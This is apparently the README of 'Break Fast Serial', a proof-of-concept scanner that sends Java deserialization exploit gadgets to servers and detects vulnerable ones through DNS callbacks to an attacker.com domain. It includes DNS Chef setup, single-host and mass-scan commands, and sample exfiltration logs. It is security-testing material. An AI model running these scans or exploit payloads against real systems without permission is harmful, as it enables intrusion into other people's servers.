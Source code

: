 # Break Fast Serial

Proof of concept that demonstrate asynchronous scan of deserialization bugs. It repackage [well knonw exploits](https://github.com/breenmachine/JavaUnserializeExploits) with modified gadget to trigger DNS query.

Detailed explaination : http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/

## DNS Chef configuration

The DNS Chef instance is a requirement to see the results of the scan.

This is the typical DNS configuration expected on your domain registrar. It will signify to other DNS server that all subdomain of `attacker.com` must be resolve by the DNS server host at `10.11.12.13`
```
NS scanner.attacker.com dnschef.attacker.com
A dnschef.attacker.com 10.11.12.13
```
`10.11.12.13` : The public IP address that is 
`attacker.com` : A domain name you own

## Single IP scan

```
python breakfast.py -t 192.168.40.1 -p 7001 -d scanner.attacker.com
```

## Mass Scan

Build a list of ip/hostname with open **HTTP** ports. Use 
```
$ cat list_servers.txt
192.168.40.10:80
192.168.40.24:8181
192.168.40.100:7001
192.168.40.100:8080
192.168.40.102:8080
192.168.40.102:8001
```

```
cat list_servers.txt | python breakfast.py -stdin -d scanner.attacker.com
```

## Expected response

If the vulnerability is confirmed, the expected trace from DNS Chef is as follow.

```
['843', 'jboss', '192.168.40.24', '8181']
[06:16:44] 69.165.172.165: cooking the response of type 'A' for 3834333a6a626f73733a3132372e302e302e313a38313831.scan.fsociety.com to 127.0.0.1
['914', 'jenkins-cli', '192.168.40.102', '8080']
[06:16:45] 173.194.103.14: cooking the response of type 'A' for 3931343a6a656e6b696e732d636c693a3132372e302e302e313a38303830.scanner.fsociety.com to 127.0.0.1
```